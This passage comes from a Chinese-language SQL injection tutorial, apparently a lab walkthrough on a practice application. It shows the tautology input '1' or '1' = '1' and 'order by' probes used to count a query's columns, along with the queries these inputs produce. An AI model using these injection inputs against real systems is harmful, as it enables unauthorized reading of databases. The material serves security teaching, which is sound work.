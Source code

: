 
	```sql
	SELECT first_name, last__name FROM users WHERE userid = '1' and '1' = '1'_
	
	```

	- 输入ID为`1' or '1' = '1`时出现以下提示：

	![20190502144303.png](../post_images/d19a996409e54cde5e3e423ba2024395.png)


	```sql
	SELECT first_name, last__name FROM users WHERE userid = '1' or '1' = '1'_
	
	```

2. 猜解数据表中的字段数说明数据表中的字段数位2，正常情况下请使用二分法进行测试。
	- 输入ID为`1' order by 1 #`, 正常显示：

	![20190502150715.png](../post_images/0f47f9661e25745032e26bbb0338ee2e.png)

	- 输入ID为`1' order by 2 #`, 正常显示：

	![20190502150826.png](../post_images/cd90a63affb4b83b1158ff1a4d7f9d81.png)
